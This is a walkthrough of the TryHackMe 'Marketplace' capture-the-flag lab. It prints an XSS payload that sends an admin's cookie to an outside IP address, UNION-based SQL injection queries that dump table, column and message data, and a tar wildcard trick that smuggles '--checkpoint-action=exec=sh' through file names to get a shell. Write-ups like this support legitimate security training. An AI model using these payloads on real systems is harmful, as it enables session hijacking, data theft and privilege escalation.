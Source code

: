 # The Marketplace

This challenge exploits XSS, SQL injection and linux priv escalation.

## Reconnaissance

First to do some reconnaissance on the box, starting with nmap. Can be seen that there are 2 ports open that we can use namely http and ssh ports.

![nmap](./nmap.PNG)

Going to the website we get greeted to a home page with home, log in and sign up buttons along with some products already ip for sale.

Trying a couple of basic log ins like admin admin or admin password etc lead to nothing. We can however create an account. Now I have a messages tab at the top.

Looking at listings they can be reported to admins.

![Report](./Report.PNG)

Interesting that an admin will visit it.

I can also create a new listing.

## Flag 1

[Listing](./NewListing.PNG)

Some textboxes, can we XSS? I'll test with `<script>alert('xss');</script>`.

[xss](./xss.PNG)

Great! Now we can try and get hold of some admin access to the website using cookie grabbing.

Personally I didn't know how to do this from the start so I did some googling about and found an article ![here](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2) which does basically what I want to do. This is how I amended it to this.

On the article there is the following xss script:

```html
<script type=“text/javascript”>document.location=“http://192.168.0.48:5000/?c=“+document.cookie;</script>
```

This essentially forwards the cookie to the webserver set up on that ip and port. Now I can just set up a simple http server with python listening to everything and just change the port to 8000 and the IP to my THM VPN IP.

Can set up the python server using `python3 -m http.server` and this will just capture anything coming through on you VPN IP on port 8000.

We then just create a listing with the XSS and then report it so the admin looks at it and we should have the admin cookie. Notice when you create the listing the page is now your directory, this doesn't help us so we need to know how it is being reported. If you just hover over another report listing we can see its in the format `http://<ip>/report/3` with 3 being the 3rd product on them name. well just amend to your XSS product number and report and watch the admin cookie come through.

Then just change your cookie and refresh, the first flag on the admin panel!

## Flag 2

Well now we have admin, before the cookie expires we need to do some looking about. Notice that on the page we are michael but we can see jake is also an admin. (Knowing the nature of CTFS we probably wana get into jakes account as we know ssh port is open).

![Panel](./panel.PNG)

You can actually click on those boxes. I noticed that the URL changed and it seemed to be searching for information so I added something to the end of the URL and got an error. Googling the error revealed it was a MySQL error. Nice so from here can assume we need to SQL inject.

Be aware if you trigger a bad gateway your cookie expires and you'll need to grab another.

Now I noticed adding ` password` didn't kick me out but let me continue and when I changed the number to an account that doesnt exist I get an SQL error. Now by looking at the page I can see 4 different things being displayed. User ID or number, name, ID again and if it has admin so we know 4 fields being show so in order to union ill pad 3 other results.

One useful thing to know in MySQL is the `GROUP_CONCAT()` function which groups all data onto one line which is greate for output. ![Docs](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php). Same with `database()` which returns the database name.

![database](./Database.PNG)

Database name is marketplace.

```sql
UNION SELECT 1, GROUP_CONCAT(table_name), 3 ,4 FROM information_schema.tables WHERE table_schema='marketplace'
```
Produces:

![Tables](./Tables.PNG)

so now we have table names.

Lets have a peak at Users as this might contain some useful information for the ssh.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'
```

![ColmnsUsers](./ColmnsUsers.PNG)

Ok so look at passwords

![passwords](./passwords.PNG)

Hashes :( probs wont beable to crack them. Looking back the messages table seemed interesting.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'
```

![messages columns](./messagescolumns.PNG)

lets look at messages content:

![messages](./messages.PNG)

aha a password in plaintext. Lets ssh jake.

![Flag2](./Flag2.PNG)

The next flag!

## Flag 3

This one is a little more involved but even still, all can be found using GTFO bins.

First of all i ran the standard find all SUID command

```shell
find / -perm /6000 -type f -executable 2>/dev/null
```

but this lead to nothing. Then I looked at the sudo using `Sudo -l` and saw this

![sudo](./sudo.PNG)

so michael can run backup.sh as sudo. Interesting.

Looking into backup.sh we see

```sh
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So this uses tar to archive files. Interesting. Looking at GTFO they have a tar section and it has a sudo exploit.

Just to make sure michael can run it I ran `chmod 777 backup.tar` so he can backup everything in theat directory.

The just create some files named `--checkpoint=1` and `--checkpoint-action=exec=sh` and this can be done by either using touch or vim. Just run the backup.sh and you'll have michael shell.

Make sure you run it as michael using `sudo -u michael /opt/backups/backup.sh` and you'll spawn the shell.

![michael shell](./mshell.PNG)

Now we have michael we can get root as we need to access root folder.

Doing an ID check we see this.

![ID](./ID.PNG)

hmmmm docker usually isn't there, again looking on GTFO bins it has a command u can just paste in and root!

![root shell](./rshell.PNG)

Just navigate to your root folder and collect your flag :)
